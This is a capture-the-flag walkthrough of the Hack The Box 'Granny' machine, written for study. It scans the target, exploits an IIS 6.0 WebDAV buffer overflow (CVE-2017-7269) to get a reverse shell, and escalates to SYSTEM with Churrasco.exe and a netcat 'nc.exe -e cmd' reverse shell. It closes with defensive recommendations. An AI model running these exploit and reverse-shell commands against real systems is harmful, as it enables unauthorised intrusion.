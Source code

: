# HTB - Granny

**IP Address:** `10.10.10.15  
**OS:** Windows Server 2003  
**Difficulty:** Easy  
**Tags:** #IIS6, #WebDAV, #BufferOverflow, #SeImpersonatePrivilege, #Churrasco, #Windows-Exploitation

---
## Synopsis

Granny is an easy Windows machine vulnerable to a classic **IIS 6.0 WebDAV buffer overflow (CVE-2017-7269)**.  
Exploitation leads to an initial shell as a low-privileged user. Privilege escalation is achieved by abusing the **SeImpersonatePrivilege** via **Churrasco.exe** on Windows Server 2003 to obtain `NT AUTHORITY\SYSTEM`.

---
## Skills Required

- Basic Windows service enumeration  
- Knowledge of IIS and WebDAV vulnerabilities  
- Understanding of Windows privilege escalation techniques  

## Skills Learned

- Exploiting **IIS 6.0 PROPFIND buffer overflow**  
- Abusing **SeImpersonatePrivilege** on legacy Windows systems  
- Using **Churrasco.exe** for SYSTEM escalation  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

We begin by checking if the target is alive with ICMP:

```bash
ping -c 1 10.10.10.15
```

![](screenshots/ping.png)

The machine responds, confirming it is alive.

---
### 1.2 Port Scanning

We scan all 65,535 TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.15 -oG allPorts
```

![](screenshots/allports.png)

Extract the open ports:

```bash
extractPorts allPorts
```

![](screenshots/extractports.png)

Only port **80/tcp** is open.

---
### 1.3 Targeted Scan

We run a deeper scan with version detection and default NSE scripts:

```bash
nmap -p80 -sC -sV 10.10.10.15 -oN targeted
```

```bash
cat targeted -l java
```

![](screenshots/targeted.png)

**Findings:**

| Port | Service | Version/Description |
|------|---------|---------------------|
| 80   | HTTP    | Microsoft IIS 6.0 with WebDAV enabled |

The service runs **IIS 6.0 WebDAV**, an outdated version known to be vulnerable.

---
## 2. Exploitation – IIS 6.0 WebDAV Buffer Overflow

During the targeted scan we identify **WebDAV**, a set of HTTP extensions that allows collaborative editing and file management. IIS 6.0 is known to be vulnerable to **CVE-2017-7269**.

Exploit reference: [IIS6 Exploit (CVE-2017-7269)](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

We clone the exploit:

```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

![](screenshots/exploit.png)

This is a classic **buffer overflow** triggered via the **PROPFIND** WebDAV request:

![](screenshots/exploit_propfind.png)

The exploit script requires:

- `targetip`  
- `targetport`  
- `reverseip`  
- `reverseport`

We run the exploit and set up a listener with `nc`:

```bash
python2 iis6\ reverse\ shell 10.10.10.15 80 10.10.14.2 443
```

![](screenshots/exploit_run.png)

✅ Reverse shell obtained.

---
## 3. Post-Exploitation Enumeration

We check our privileges and system structure:

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/whoami.png)

On Windows Server 2003, user profiles are located in **`Documents and Settings`** instead of `Users`:

![](screenshots/users.png)

Checking privileges:

![](screenshots/priv.png)

We have **SeImpersonatePrivilege** enabled, which can be exploited for privilege escalation.

---
## 4. Privilege Escalation – Churrasco.exe

Normally, **JuicyPotato** would be used, but it does not support Windows Server 2003 due to missing CLSIDs. 

![](screenshots/JP_clsid.png)

Instead, we use **Churrasco.exe**, a community version adapted for Windows Server 2003.

Exploit reference: [Privilege Escalation – Churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

We upload `churrasco.exe` via an SMB share:

```bash
impacket-smbserver smbFolder $(pwd)
```

On the victim:

```powershell
dir \\10.10.14.2\smbFolder\
copy \\10.10.14.2\smbFolder\churrasco.exe churrasco.exe
```

![](screenshots/upload_churrasco.png)

Move to `Temp` directory if copying fails.  

Running without arguments fails, so we must specify a command:

![](screenshots/execute_churrasco.png)

To get a more stable shell, we upload `nc.exe` via SMB and then execute it with Churrasco:

```bash
.\churrasco.exe "\\10.10.14.2\smbFolder\nc.exe -e cmd 10.10.14.2 4444"
```

If it fails, try renaming the share or copying locally:

```bash
.\churrasco.exe "nc.exe -e cmd 10.10.14.2 4444"
copy "\\10.10.14.2\smb\nc.exe" nc.exe
```

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/whoami_churrasco.png)

✅ Privilege escalation successful – we are `NT AUTHORITY\SYSTEM`.

---
## 5. Flags

With SYSTEM access, we can retrieve both flags:

![](screenshots/root_user_flag.png)

✅ **User flag obtained**  
✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Detected IIS 6.0 on port 80.  
2. **WebDAV Buffer Overflow (CVE-2017-7269)** → Remote code execution with reverse shell.  
3. **Privilege Escalation** → Abused `SeImpersonatePrivilege` using **Churrasco.exe**.  
4. **Post-Exploitation** → Retrieved user and root flags as SYSTEM.

---
## Defensive Recommendations

- **Upgrade IIS 6.0**: It is end-of-life and should be replaced with a supported version.  
- **Disable WebDAV** if not required.  
- **Restrict Privileges**: Remove `SeImpersonatePrivilege` from unnecessary accounts.  
- **Monitor for Exploits**: Log and alert on abnormal WebDAV requests such as `PROPFIND`.  
